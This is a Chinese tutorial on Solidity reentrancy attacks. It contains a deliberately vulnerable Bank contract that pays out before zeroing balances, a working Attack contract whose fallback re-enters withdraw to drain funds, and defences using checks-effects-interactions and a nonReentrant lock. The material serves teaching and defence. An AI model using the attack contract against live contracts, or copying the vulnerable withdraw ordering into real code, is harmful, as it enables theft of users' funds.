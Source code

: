 # solidity的重入攻击

重入攻击（Reentrancy Attack）是Solidity智能合约开发中常见的一种安全漏洞。它发生在合约调用外部合约时，外部合约又回调了原始合约，从而执行了不预期的代码。

### 重入攻击的工作原理

1. 合约A调用合约B中的某个函数。
2. 合约B在执行过程中调用合约A中的某个函数。
3. 合约A中的函数被重新进入，可能导致合约A的状态被不正确地修改。

### 示例

假设有一个简单的银行合约，它允许用户存款和取款：

```solidity
pragma solidity ^0.8.0;

contract Bank {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Insufficient balance");

        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0;
    }
    
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

```

攻击者可以创建一个恶意合约，在`withdraw`函数调用时重新进入Bank的`withdraw`函数，多次提取资金：

```solidity
pragma solidity ^0.8.0;

contract Attack {
    Bank public bank;

    constructor(address _bankAddress) {
        bank = Bank(_bankAddress);
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }
    }

    function attack() public payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }
    
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

```

### 防御措施

1. 使用`checks-effects-interactions`模式：在进行外部调用之前，先检查状态变量，在更新状态变量，最后在调用外部合约，比如上面的bank合约，banlances[msg.sender] = 0 放在上面的msg.sender.call()前面；
2. 使用重入锁（Mutex）：防止函数被重入调用。
    
    ```solidity
    uint256 private _status; // 重入锁
    
    // 重入锁
    modifier nonReentrant() {
        // 在第一次调用 nonReentrant 时，_status 将是 0
        require(_status == 0, "ReentrancyGuard: reentrant call");
        // 在此之后对 nonReentrant 的任何调用都将失败
        _status = 1;
        _;
        // 调用结束，将 _status 恢复为0
        _status = 0;
    }
    ```
    

重入锁是一种防止重入函数的修饰器（modifier），它包含一个默认为`0`的状态变量`_status`。被`nonReentrant`重入锁修饰的函数，在第一次调用时会检查`_status`是否为`0`，紧接着将`_status`的值改为`1`，调用结束后才会再改为`0`。这样，当攻击合约在调用结束前第二次的调用就会报错，重入攻击失败。